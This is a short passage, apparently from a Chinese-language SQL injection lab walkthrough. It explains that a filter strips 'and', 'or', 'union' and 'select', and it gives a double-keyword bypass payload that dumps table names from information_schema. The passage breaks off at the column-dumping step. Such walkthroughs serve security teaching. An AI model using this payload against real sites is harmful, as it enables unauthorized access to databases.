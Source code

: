 ![在这里插入图片描述](img/adfd03780b43ff474151acb3ea107838.png)
![在这里插入图片描述](img/a2f4507a1bb96abba87a8fd36e636186.png)
同理测试（将url中的union替换）出被过滤的字符串有：and，or，union，select，都用双写关键词来绕过。

5、爆数据表 (注意：information里面也有or)：

```
?id=1' ununionion seselectlect 1,group_concat(table_name) from infoorrmation_schema.tables where table_schema=database()--+ 
```

![在这里插入图片描述](img/4f34e7cf30df4d394897a7ab87dd6013.png)
6、爆字段：
